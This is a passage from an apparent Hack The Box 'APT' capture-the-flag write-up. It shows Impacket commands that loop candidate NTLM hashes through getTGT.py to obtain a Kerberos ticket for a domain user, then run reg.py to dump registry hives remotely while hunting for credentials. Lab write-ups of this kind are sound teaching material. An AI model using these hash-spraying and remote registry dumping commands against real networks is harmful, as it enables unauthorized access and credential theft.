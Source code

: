 * https://0xeb-bp.com/blog/2019/11/21/practical-guide-pass-the-ticket.html

Using the `klist` tool I found out that the ticket was expired.  I had created it the day before, but tickets have a shorter expiration than that.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ for x in $(cat test);do getTGT.py -hashes $x -dc-ip apt.htb.local htb.local/henry.vinson@apt.htb | grep -v Impacket | tee -a  valid_hash;done

[*] Saving ticket in henry.vinson@apt.htb.ccache

┌──(zweilos㉿kali)-[~/htb/apt]
└─$ klist
Ticket cache: FILE:henry.vinson@apt.htb.ccache
Default principal: henry.vinson@HTB.LOCAL

Valid starting       Expires              Service principal
03/31/2021 20:18:19  04/01/2021 06:18:19  krbtgt/HTB@HTB.LOCAL
     renew until 04/01/2021 20:15:12
```

I ran my one-liner from earlier (on just the valid hash this time) to get a new ticket.  I checked it using `klist` again and saw that the time was refreshed.

### Dumping the registry

I tried dumping the registry again using the same command and this time it took much, much, longer to output (like everything else on this machine so far!).  I was sure that it was working this time!!  I used the `-s` reg option to make it recursively get all keys.  I chose `HKEY-USER` first since it was a likely place to find potential credentials and other useful system information.  

* https://www.lifewire.com/hkey-users-2625903

> Each registry key located under the HKEY_USERS hive corresponds to a user on the system and is named with that user's security identifier, or SID. The registry keys and registry values located under each SID control settings specific to that user, like mapped drives, installed printers, environment variables, desktop background, and much more, and is loaded when the user first logs on.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ python3 /home/zweilos/.local/bin/reg.py -k apt.htb.local query -keyName HKLM -s | tee regdump_HKLM

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

Next I tried to download `HKLM` while I perused through `HKU`, but I was denied access.

```
\Software\Microsoft\Windows\CurrentVersion\Explorer\SearchPlatform\Preferences\
        BreadCrumbBarSearchDefault      REG_SZ   MSNSearch
        DisableAutoNavigateURL  REG_DWORD        0x0
        DisableAutoResolveEmailAddrs    REG_DWORD        0x0
        DisableResultsInNewWindow       REG_DWORD        0x0
        DisableTabbedBrowsing   REG_DWORD        0x0
        EditSavedSearch REG_DWORD        0x0
        IEAddressBarSearchDefault       REG_SZ   MSNSearch
```
